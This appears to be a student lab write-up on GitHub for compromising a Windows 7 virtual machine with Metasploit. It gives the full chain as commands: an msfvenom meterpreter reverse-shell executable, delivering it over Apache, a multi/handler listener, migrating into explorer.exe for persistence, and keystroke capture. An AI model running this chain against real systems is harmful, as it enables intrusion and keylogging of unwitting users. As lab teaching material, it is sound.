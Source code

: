 ![VirtualBox_kali-linux-2023 4-virtualbox-amd64_27_04_2024_14_31_33](https://github.com/Aishwarya-TM/EH-EX-6/assets/127846109/015e2527-01d0-4b8f-a548-1d79b3960b3d)# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig

![VirtualBox_kali-linux-2023 4-virtualbox-amd64_27_04_2024_14_23_38](https://github.com/Aishwarya-TM/EH-EX-6/assets/127846109/97641bd9-a1de-4183-a479-ab01f69198c5)

Create a malicious executable file fun.exe using msfvenom command

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

![VirtualBox_kali-linux-2023 4-virtualbox-amd64_27_04_2024_14_25_11](https://github.com/Aishwarya-TM/EH-EX-6/assets/127846109/2f7d21e8-ac0b-4529-b7b3-a45679f82ba3)

copy the fun.exe into the apache /var/www/html folder


Start apache server

sudo systemctl apache2 start

![VirtualBox_kali-linux-2023 4-virtualbox-amd64_27_04_2024_14_27_19](https://github.com/Aishwarya-TM/EH-EX-6/assets/127846109/33b8fa8c-e0fe-4284-8005-035ad5941078)

Check the status of apache2

Invoke msfconsole:

![VirtualBox_kali-linux-2023 4-virtualbox-amd64_27_04_2024_14_29_04](https://github.com/Aishwarya-TM/EH-EX-6/assets/127846109/eb634194-da71-401f-b3c4-3b7608784aaf)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server

use multi/handler

set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST 0.0.0.0

exploit

![VirtualBox_kali-linux-2023 4-virtualbox-amd64_27_04_2024_14_31_33](https://github.com/Aishwarya-TM/EH-EX-6/assets/127846109/e90489e5-9bcb-4f59-b2d7-a9f5cf05bef6)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:

http://192.168.1.2/fun.exe

The file "fun.exe" downloads. 

Bypass any warning boxes, double-click the file, and allow it to run.

![VirtualBox_Windows 7_27_04_2024_14_35_20](https://github.com/Aishwarya-TM/EH-EX-6/assets/127846109/e254c516-d158-474c-be36-929702a9f334)

On kali give the command exploit

![VirtualBox_kali-linux-2023 4-virtualbox-amd64_27_04_2024_14_31_33](https://github.com/Aishwarya-TM/EH-EX-6/assets/127846109/60ce3e07-c61d-43a0-a87e-824ef27994d0)

To see a list of processes, at the meterpreter > prompt, execute this command:

ps  ⇒ can see the fun.exe process running with pid 1156

![VirtualBox_kali-linux-2023 4-virtualbox-amd64_29_04_2024_08_35_53](https://github.com/Aishwarya-TM/EH-EX-6/assets/127846109/19707a1d-9ab5-4cb3-a0a5-bb77997db1b2)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.

To become more persistent, we'll migrate to a process that will last longer.

Let's migrate to the winlogon process.

At the meterpreter > prompt, execute this command:

migrate -N explorer.exe

at meterpreter > prompt, execute this command:

netstat

A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![VirtualBox_kali-linux-2023 4-virtualbox-amd64_29_04_2024_08_37_07](https://github.com/Aishwarya-TM/EH-EX-6/assets/127846109/22cd7317-cb46-4df4-94b0-62ba262b3c26)

Post Exploitation

The target is now owned. Following are meterpreter commands for key capturing in the target machine

keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![VirtualBox_kali-linux-2023 4-virtualbox-amd64_29_04_2024_08_37_53](https://github.com/Aishwarya-TM/EH-EX-6/assets/127846109/c2356dfb-4329-4f6b-b35c-45b526e5e643)

keyscan_dump	Shows the keystrokes captured so far

![VirtualBox_kali-linux-2023 4-virtualbox-amd64_29_04_2024_08_41_09](https://github.com/Aishwarya-TM/EH-EX-6/assets/127846109/6a746190-c48c-49ea-8e44-a1391edca22b)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
